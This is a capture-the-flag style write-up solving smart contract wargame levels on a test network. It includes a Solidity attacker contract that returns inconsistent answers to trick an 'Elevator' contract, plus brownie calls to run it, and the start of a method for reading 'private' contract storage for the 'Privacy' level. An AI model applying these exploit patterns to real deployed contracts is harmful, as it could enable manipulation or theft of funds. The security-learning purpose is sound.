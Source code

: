 ### How I did it

1. Create and deploy a Building contract (at: `0x970b299cCB253F5b4f58fEbde41Ffe2D2b25F885`) to interact with the Elevator contract where I define the `isLastFloor()` function:

```js
function isLastFloor(uint256) external returns (bool) {
    lastFloorBool = elevatorContract.floor() == topFloor;
    return lastFloorBool;
}
```

And a function to go to the top floor which calls `goTo()` in the elevator contract:

```js
function goToTopFloor() external {
    elevatorContract.goTo(topFloor);
}
```

2. Call the `goToTopFloor()` function which will first see that it's not at the top floor (`floor` is 0 initially), then floor changes and `floor` = `topFloor` and the second time `isLastFloor()` is called returns `true` which is then assigned to `top`.

```python
building.goToTopFloor(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x33bbab0e9b389cf24fb2118f1b07b350e53d8e358c36cbd94a536f9013fa386d

3. Check that `top` is true

```python
top_assertion = elevator.top() == True
print(f'We are at the top floor: {top_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x88d2597f20efca51b582e9ae46696320ab5fb77ae32aee5dc58a335ced32a9b2

***

## Privacy

### Objectives

Unlock this contract to beat the level.

### Solution

First, the data in the `data` variable must be retrieved. This can be done by extracting the data from the contract storage as it is on the blockchain. In brownie, this can be done using `web3.eth.get_storage_at()`, with the address of the contract in the first param and the direction of the contract storage slot to look into.

